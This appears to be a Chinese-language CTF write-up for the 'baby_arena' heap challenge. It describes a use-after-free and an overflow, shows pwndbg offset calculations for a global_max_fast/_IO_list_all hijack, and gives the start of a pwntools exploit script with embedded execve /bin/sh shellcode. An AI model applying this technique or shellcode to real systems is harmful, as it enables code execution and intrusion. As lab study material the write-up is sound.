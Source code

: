 漏洞点有2个，一个UAF

![image-20220601153951776](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220601153951776.png)

另一个是这里的溢出，导致可以往任意地址写入一个'admin'

![image-20220601154038567](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220601154038567.png)

这里主要利用了一个修改`global_max_fast`的方式来劫持IO_list_all，这里利用`global_max_fast`实现任意地址写的mallocsize主要如下计算

```python
def offset2size(offset):
    assert offset % 8 == 0
    return (offset * 2) + 0x10
 
pwndbg> p &main_arena.fastbinsY
$5 = (mfastbinptr (*)[10]) 0x7f8a7d7b0b28 <main_arena+8>
pwndbg> p &_IO_list_all
$6 = (struct _IO_FILE_plus **) 0x7f8a7d7b1520 <_IO_list_all>
pwndbg> p/x 0x7f8a7d7b1520-0x7f8a7d7b0b28
$7 = 0x9f8
pwndbg> p/x 2*0x9f8+0x10
$8 = 0x1400
```
然后就是一个触发的问题，这里我们改了fastbin的范围，导致malloc时申请了不可申请的区域，触发`_IO_flush_all_lockp`

```c
//这里只需要绕过整个判断即可执行_IO_OVERFLOW
fp->_mode <= 0
fp->_IO_write_ptr > fp->_IO_write_base
```

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./baby_arena')
elf = ELF("./baby_arena")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

user = 0x6020B0

def add(size,con):
    sla("4.exit",1)
    sla("Pls Input your note size",size)
```